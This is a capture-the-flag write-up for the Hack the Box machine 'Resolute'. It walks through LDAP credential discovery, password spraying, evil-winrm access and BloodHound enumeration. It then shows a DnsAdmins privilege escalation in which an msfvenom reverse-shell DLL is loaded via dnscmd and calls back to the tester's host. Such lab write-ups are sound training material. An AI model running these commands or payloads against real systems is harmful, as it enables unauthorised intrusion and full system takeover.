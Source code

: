 ```yaml
---
title: Resolute
tags: windows
description: Write-up for Hack the Box - Resolute
---
```


![image](assets/84849979-87b02280-b024-11ea-81b2-f2a9d8953592.png)

## Overview

Resolute is a Windows Server 2016 box that exposed credentials via ldap which was anonymously accessible. Credentials were reused with other accounts which allowed for logon to the box as melanie via winrm. I came across a PSTranscript file where I found credentials for an account named ryan which was used to log in to the box again with additional privileges. Bloodhound was used to determine that the user was a member of the DnsAdmins group. Being part of this group provided the ability to abuse the dns service by adding a malicious dll that created a reverse shell and provided a shell as 'nt authority\system'

## Enumeration

**Software**

* Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)

**Port Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.169 -oN /mnt/data/boxes/resolute/_full_tcp_nmap.txt
```

* 53/tcp - dns
* 88/tcp - Microsoft Windows Kerberos (server time: 2020-03-17 14:51:48Z)
* 135/tcp - Microsoft Windows RPC
* 139/tcp - Microsoft Windows netbios-ssn
* 389/tcp - Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
* 389/udp - Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
* 445/tcp - Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
* 464/tcp - kpasswd5? 
* 593/tcp - Microsoft Windows RPC over HTTP 1.0
* 636/tcp  - tcpwrapped
* 3268/tcp - Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
* 3269/tcp - tcpwrapped
* 5985/tcp - Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 9389/tcp - .NET Message Framing
* 47001/tcp - Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 49664/tcp open  Microsoft Windows RPC
* 49665/tcp open - Microsoft Windows RPC
* 49666/tcp open - Microsoft Windows RPC
* 49667/tcp open - Microsoft Windows RPC
* 49671/tcp open - Microsoft Windows RPC
* 49676/tcp open - Microsoft Windows RPC over HTTP 1.0
* 49677/tcp open - Microsoft Windows RPC
* 49684/tcp open - Microsoft Windows RPC
* 49712/tcp open - Microsoft Windows RPC
* 61319/udp open - tcpwrapped
* 64614/tcp open - unknown

## Steps (user)

I started off by trying a dns zone transfer but was unsuccessful. I also tried browsing the smb shares but was not able gain any useful information. 

Next I moved onto ldap, I used ldapsearch to query all objects and found the text 'Account created. Password set to Welcome123!' in the description field for Marko Novak's account.

```
ldapsearch -x -b "dc=megabank,dc=local" -h 10.10.10.169 
```

![image](assets/84969497-d32b0500-b0e6-11ea-99ea-ae53a531b683.png)

I ran the command again selecting only samaccountname and saved the results to a file called users.txt. I had to manually pair down the list to only include usernames.

```
ldapsearch -x -b "dc=megabank,dc=local" -h 10.10.10.169 | grep -i samaccountname | awk '{print $2}' > users.txt
```

![image](assets/84970068-f86c4300-b0e7-11ea-8ec7-5b9f139138b1.png)

I could have used something like Hydra but instead I just created a quick and dirty bash script. It basically tries to authenticate to the server using smbmap, trying each username in users.txt with the Welcome123! password. 

```
for i in `cat users.txt`; do echo "trying user: $i"; smbmap -H 10.10.10.169 -u $i -p 'Welcome123!'; done
```

Once the username melanie was tried, smbmap returned some data indicating that authentication was successful.

![image](assets/84970555-f060d300-b0e8-11ea-99ad-f85c1b8ccb44.png)

I wasn't able to access any of the smb shares as user melanie but I was able to connect via evil-winrm with melanie:Welcome123!

```
evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!
```

![image](assets/84970709-3c137c80-b0e9-11ea-982e-d9680a1da2ad.png)

While enumeating the file system I came across an unusual folder on the root of C:\ called PSTranscripts.

![image](assets/84971270-5732bc00-b0ea-11ea-8f6a-dcc56bae0324.png)

In the file C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt I found what looked like credentials **ryan:Serv3r4Admin4cc123!**

![image](assets/84971445-c6a8ab80-b0ea-11ea-8cc9-545f9784b927.png)

I logged on as user ryan with the new credentials via evil-winrm. In Ryan's desktop folder I found a file called note.txt with the text "Email to team: - due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute".

![image](assets/84971545-ff488500-b0ea-11ea-9d4b-230db5edff45.png)

## Steps (root/system)

I used a tool called Bloodhound to get some additional information. First I needed to get [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors),a collector for Bloodhound, on the system to collect the data that would later be imported into Bloodhound. While logged in as the user ryan I transferred SharpHound.exe to the host via smb. I set up an smb server using imapcket's smbserver.py

> Bloodhound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.

```
sudo ~/tools/impacket/examples/smbserver.py share `pwd`
```

Using the copy command, SharpHound.exe was copied to the target

```
copy \\10.10.14.21\share\SharpHound.exe
```

And ran 'sharphound -c all' to collect all information

![image](assets/84972536-0bcddd00-b0ed-11ea-96e7-ac554a7a2512.png)

The zip file was copied back to my machine

```
copy 20200617200004_BloodHound.zip \\10.10.14.21\share\
```

I started neo4j (neo4j console) and then bloodhound

![image](assets/84972782-96164100-b0ed-11ea-9d08-c9020322e5d9.png)

I then clicked the upload button and selected the zip file. I ran a few of the built in queries to see what it would tell me. It showed that james is a member of contractors which is a member of dnsadmins. I wasn't immediately aware of any vulnerabilities associated with being a member of dnsadmins, however, the name of the box is Resolute so I took that as a hint and did some research.

![image](assets/84973387-f0fc6800-b0ee-11ea-889b-2e88add90a30.png)

![image](assets/84973296-c6aaaa80-b0ee-11ea-9f74-7485a53c7731.png)

I found an article called [DNS Admin Privesc in Active Directory (AD)(Windows)](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2) which details a privilege escalation method that involved creating a dll that contains reverse tcp code that can then be injected into the dns.exe process.

The dll was created with msfvenom by specifying the usual reverse shell parameters and formatting it (-f) as a dll.

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.21 LPORT=4200 -f dll > pe.dll
```

![image](assets/84973552-5c463a00-b0ef-11ea-8e81-e0b0e189c803.png)

I created a share using impacket's smbserver.py

```
sudo ~/tools/impacket/examples/smbserver.py share `pwd`
```

Next I started a netcat listener (nc -lvnp 4200) and on the box and ran the [dnccmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) command specifying /config, /serverlevelplugin, and the unc path to the dll file.

* /config - Changes values in the registry for the DNS server and individual zones. This command also modifies the configuration of the specified server. Accepts server-level and zone-level settings.
* /serverlevelplugindll - Specifies the path of a custom plug-in. 

```
dnscmd 10.10.10.169 /config /serverlevelplugindll \\10.10.14.21\share\pe.dll
```

Lastly I restarted the dns service

```
cmd /c "sc stop dns"
cmd /c "sc start dns"
```

And received a callback and shell as 'nt authority/system'

![image](assets/84973843-0faf2e80-b0f0-11ea-8642-5a1971edea71.png)

